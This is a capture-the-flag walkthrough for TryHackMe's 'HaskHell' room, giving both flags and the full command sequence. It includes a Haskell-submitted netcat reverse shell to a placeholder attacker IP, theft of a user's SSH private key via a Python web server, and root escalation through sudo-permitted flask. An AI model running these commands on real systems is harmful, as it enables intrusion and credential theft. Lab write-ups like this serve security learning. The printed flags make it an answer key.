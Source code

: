 # <div align="center">[HaskHell](https://tryhackme.com/r/room/haskhell)</div>
<div align="center">Teach your CS professor that his PhD isn't in security</div>
<br>
<div align="center">
<img src="https://github.com/user-attachments/assets/22815413-4b47-4523-ab64-26ea043316c3" height="200"></img>
</div>

# Task 1. HaskHell

Show your professor that his PhD isn't in security.

## Get the flag in the user.txt file.
```
flag{academic_dishonesty}
```
```
sudo nmap -sSCV <IP>
http://<IP>:5001/submit

#!/usr/bin/env runhaskhell
module Main where
import System.Process
main = callCommand "rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc <YOUR_IP> 4444 >/tmp/f"


nc -nlvp 4444
whoami
id
ls -la /home
cd /home/prof/.ssh/
ls -la
which python3
python3 -m http.server
wget http://<IP>:8000/id_rsa

chmod 600 id_rsa
ssh -i id_rsa prof@<IP>
cat /home/prof/user.txt
```
## Obtain the flag in root.txt
```
flag{im_purely_functional}
```
```
SHELL=/bin/bash script -q /dev/null
sudo -l
ls -l /usr/bin/flask
file /usr/bin/flask
cat /usr/bin/flask
python3 /usr/bin/flask


cat > shell.py << EOF
> #!/usr/bin/env python3
> import pty
> pty.spawn("/bin/bash")
> EOF

export FLASK_APP=shell.py
sudo /usr/bin/flask run
whoami
cat /root/root.txt
```
